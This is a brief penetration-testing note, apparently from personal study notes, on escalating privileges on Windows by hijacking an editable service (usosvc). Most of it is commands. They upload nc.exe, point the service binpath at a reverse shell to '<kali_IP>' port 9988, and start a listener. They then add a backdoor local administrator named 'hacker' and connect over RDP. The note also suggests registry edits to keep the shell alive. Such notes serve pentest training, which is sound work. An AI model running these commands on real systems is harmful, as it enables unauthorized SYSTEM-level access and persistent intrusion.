 # Editable Service

If you find a service that is editable (WinPEAS can help here to find such services) you can edit the binpath to point to nc.exe to get a reverse shell. 

Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc

Note: in both my experiences using this, this does get shell, but it closes in a few seconds.

- Upload `nc.exe` to a writable directory.
- `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
- `sc config usosvc  obj= ".\LocalSystem" password= ""` - I didn't need this second time using it
- `sc config usosvc start= "demand"`
- `nc -lvp 9988` (setup listener on kali)
- `net start usosvc`
- R00T!
	
Since shell closes soon, add new admin user:
1. `net user hacker h@ck3r%93 /add`
2. `net localgroup administrators hacker /add`

Now RDP/ssh with new creds (if services are available, or you can open them yourself):
1. `rdesktop <target>`
2. R00T!

The shell closes due to a Windows timeout variable in the registry that defines how long to wait for a service to response. If you're in a position to edit that (i.e. ssh/rdp not enabled) this would stabilize the shell.
If you don’t want to edit the registry, since you're admin for a bit with this shell, you could try enabling RDP or SSH.